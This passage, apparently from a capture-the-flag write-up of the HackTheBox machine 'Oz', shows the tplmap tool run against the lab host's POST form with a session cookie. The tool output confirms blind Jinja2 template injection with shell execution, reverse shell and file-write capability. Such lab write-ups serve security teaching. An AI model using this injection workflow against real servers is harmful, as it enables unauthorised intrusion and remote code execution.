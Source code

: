    root@kali# /opt/tplmap/tplmap.py                     
    [+] Tplmap 0.5
        Automatic Server-Side Template Injection Detection and Exploitation Tool  
    
    Usage: python tplmap.py [options]
    
    tplmap.py: error: URL is required. Run with -h for help. 
    

#### Run Against Oz

I’ll start by giving it the minimum parameters to get it going:

  * `-u` \- the url to target
  * `-X POST` \- the request type
  * `-d` \- the data for the POST
  * `-H` \- headers to include, in this case, the cookie to be logged in

On doing that, it finds the engine, Jinja2 (same as I found above), and says
it can do blind shell commands and file writes. For some reason it thinks it
can’t do file reads, which I proved I could do above, so it’s not perfect.

    
    
    root@kali# /opt/tplmap/tplmap.py -u http://10.10.10.96:8080/ -X POST -d "name=GBR-4045&desc=test" -H "Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IndpemFyZC5veiIsImV4cCI
    6MTU0Njc0MDEwMX0._vYHq7D4Cq9eSMI5UTQRC4lM9BjB0DAmvFZy0ZJ664w"
    [+] Tplmap 0.5
        Automatic Server-Side Template Injection Detection and Exploitation Tool
    
    [+] Testing if POST parameter 'name' is injectable
    [+] Smarty plugin is testing rendering with tag '*'
    [+] Smarty plugin is testing blind injection
    [+] Mako plugin is testing rendering with tag '${*}'
    [+] Mako plugin is testing blind injection
    [+] Python plugin is testing rendering with tag 'str(*)'
    [+] Python plugin is testing blind injection
    [+] Tornado plugin is testing rendering with tag '{{*}}'
    [+] Tornado plugin is testing blind injection
    [+] Jinja2 plugin is testing rendering with tag '{{*}}'
    [+] Jinja2 plugin is testing blind injection
    [+] Jinja2 plugin has confirmed blind injection
    [+] Tplmap identified the following injection point:
    
      POST parameter: name
      Engine: Jinja2
      Injection: *
      Context: text
      OS: undetected
      Technique: blind
      Capabilities:
    
       Shell command execution: ok (blind)
       Bind and reverse shell: ok
       File write: ok (blind)
       File read: no
       Code evaluation: ok, python code (blind)
    